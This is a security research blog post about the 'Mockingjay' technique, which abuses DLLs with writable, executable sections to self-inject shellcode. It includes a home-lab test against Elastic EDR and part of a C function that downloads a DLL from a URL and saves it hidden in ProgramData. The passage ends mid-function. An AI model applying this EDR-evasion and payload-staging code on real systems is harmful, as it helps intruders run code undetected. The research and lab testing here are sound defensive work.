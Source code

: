 Loading DLLs with default RWX section to execute code is not new in 2023, it has been used for multiple years in the game hacking community as we can see in [this post in the forum Unknown Cheats from 2018](https://www.unknowncheats.me/forum/2174119-post31.html).

Based on my knowledge and research, there are no DLLs with a RWX section on a default Windows installation. You can use [this Python script](https://github.com/caueb/Mockingjay/blob/main/rwx_finder.py) to check if there are any on yours.
However, the research done by Security Joes found a vulnerable DLL on systems with Visual Studio 2022 Community installed at `C:\Program Files\Microsoft Visual Studio\2022\Community\Common7\IDE\CommonExtensions\Microsoft\TeamFoundation\Team Explorer\Git\usr\bin\msys-2.0.dll.`
This DLL have a RWX section of 16 KB in size, which is enough to store and execute a payload.  
I was very curious to know how this works, so I created a proof-of-concept that loads the vulnerable DLL and self-inject shellcode: https://github.com/caueb/Mockingjay

All this sounds very interesting, however, this technique is limited to compromised systems that contain a vulnerable DLL. While I was wondering if threat actors may target developers now, as they are more likely to have Visual Studio installed, I thought “why not just bring the vulnerable DLL to the compromised machine?”. I decided to modify the code in my POC to download the DLL from the internet, write to disk, and then load the DLL from disk.

## Mockingjay - BYODLL
To test the detection of bringing your own vulnerable DLL, I modified my POC and run against Elastic EDR in my home lab. You can read more about how I have my [home lab setup here](https://caueb.github.io/purple-team-lab/elasticonraspberrypi/).

Essentially I have the following setup:
- 1 x Windows 11 fully updated with Elastic EDR agent (target).
- 1 x Windows 11 fully updated (attacker).
- 1 x Raspberry Pi 4 running Elastic on full prevention mode.

*Side note: I think Elastic do a fantastic job in detecting and preventing threats. The main reason I’m testing against it is the convenience of having a 30-day trial and the challenge to evade detection.*

### Download the DLL & Save to disk
I created a function that will download the vulnerable DLL from a URL and write into disk. I opted to save it in the `C:\ProgramData\` folder, usually is a world writable location:
```C
BOOL GetDllFromUrl(const char* szUrl, const char* savePath) {
    HINTERNET   hInternet       = NULL,
                hInternetFile   = NULL;
    DWORD       dwBytesRead     = NULL;

    // Opening an internet session handle
    hInternet = InternetOpenW(NULL, INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
    if (hInternet == NULL) {
        return FALSE;
    }

    // Opening a handle to the DLL's URL
    hInternetFile = InternetOpenUrlA(hInternet, szUrl, NULL, NULL, INTERNET_FLAG_RELOAD | INTERNET_FLAG_DONT_CACHE, NULL);
    if (hInternetFile == NULL) {
        InternetCloseHandle(hInternet);
        return FALSE;
    }

    // Open a local file for writing the payload
    HANDLE hFile = CreateFileA(savePath, GENERIC_WRITE, FILE_SHARE_WRITE, NULL, CREATE_ALWAYS,  FILE_ATTRIBUTE_TEMPORARY | FILE_ATTRIBUTE_HIDDEN, NULL);
    if (hFile == INVALID_HANDLE_VALUE) {
        InternetCloseHandle(hInternet);
        InternetCloseHandle(hInternetFile);
        return FALSE;
    }
```